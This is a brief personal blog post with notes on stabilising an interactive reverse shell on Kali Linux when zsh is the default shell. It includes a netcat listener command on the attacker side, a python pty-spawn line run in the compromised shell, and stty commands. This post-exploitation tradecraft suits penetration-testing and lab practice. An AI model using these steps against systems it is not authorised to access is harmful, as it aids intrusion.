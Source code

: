 ```yaml
---
title: "Interactive Reverse Shell"
date: 2023-07-27T08:49:15Z
draft: false
---
```


Had some issues getting a fully functional reverse shell on Kali 2023.2. 
I think the main issue was caused by the standard shell zsh (not good old bash).

Maybe this post will help me again, or even others :)

# Workaround 1
---
Simply switch from zsh to bash:
```
exec bash --login               #switch to bash shell
ps -p $$                        #check used shell
```
and then use the *standards* from [HackTricks - Full TTYs](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys).

# Workaround 2
---
With some tweaking it was possible to get it running with zsh:

On attacker:
```
rlwrap nc -lvnp {your_port}
```
- `rlwrap`: provides readline's line edition, persistent history and completion

on rev shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl-z
```
- stabilize shell
- put it to background

on attacker:
```
stty size;stty raw -echo;fg
```
- important to send this commands as an oneliner
